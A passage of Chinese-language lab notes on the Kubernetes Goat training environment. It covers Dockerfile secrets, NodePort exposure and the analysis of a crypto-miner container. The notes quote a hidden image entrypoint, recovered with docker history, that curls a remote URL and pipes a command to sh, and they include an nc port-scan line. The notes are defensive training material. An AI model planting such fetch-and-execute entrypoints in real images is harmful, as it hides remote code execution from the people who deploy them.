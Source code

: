 ### Solution

不要在 Dockerfile 里添加 API_KEY、SECRET 等敏感信息，尽量在 Deployment 中添加。

## NodePort exposed services

![NodePort exposed services](https://madhuakula.com/kubernetes-goat/assets/images/scenario-8-ffadb402f58fbe7a3d4845cef3ce9609.png)

### Problem

NodePort 的 service，端口范围是 30000-32767，
然后通过`nc -zv EXTERNAL-IP-ADDRESS 30003` 访问到

### Solution

在生产环境不要使用 NodePort 的 service

## Analysing crypto miner container

### Problem

提供一个 job

```yaml
apiVersion: batch/v1
kind: Job
metadata:
  name: batch-check-job
spec:
  template:
    metadata:
      name: batch-check-job
    spec:
      containers:
        - name: batch-check
          image: madhuakula/k8s-goat-batch-check
          # command:
          #  - "bin/sh"
          #  - "-c"
          #  - "htop"
      restartPolicy: Never
```

发现用的镜像是`madhuakula/k8s-goat-batch-check`

通过`docker history --no-trunc madhuakula/k8s-goat-batch-check`，发现 entrypoint 是`echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup`

### Solution

## Kubernetes namespaces bypass
